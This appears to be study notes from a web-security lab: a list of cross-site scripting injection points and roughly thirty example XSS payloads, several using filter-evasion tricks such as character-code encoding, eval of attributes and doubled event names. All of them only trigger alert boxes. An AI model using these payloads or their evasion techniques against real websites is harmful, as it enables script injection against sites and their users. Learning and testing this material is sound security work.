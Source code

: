 ```
Comments on a blog
User profile information    
Website Listings
```

**Example Paylods**

```javascript
<script>alert('XSS')</script>

<script>alert('XSS')</script>

<script>alert(String.fromCharCode(88,83,83))</script>

"><script>alert('XSS');</script>
[suitable for escaping input tags]

</textarea><script>alert('THM');</script> 
[suitable for escaping text areas]

';alert('THM');//

<img src=x onerror=alert('XSS');>

<img src=x onerror=alert('XSS')//

<img src=x onerror=alert(String.fromCharCode(88,83,83));>

<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>

<img src=x:alert(alt) onerror=eval(src) alt=xss>

"><img src=x onerror=alert('XSS');>

"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

<svgonload=alert(1)>

<svg/onload=alert('XSS')>

<svg onload=alert(1)//

<svg/onload=alert(String.fromCharCode(88,83,83))>

<svg id=alert(1) onload=eval(id)>

"><svg/onload=alert(String.fromCharCode(88,83,83))>

"><svg/onload=alert(/XSS/)

<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)

<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```
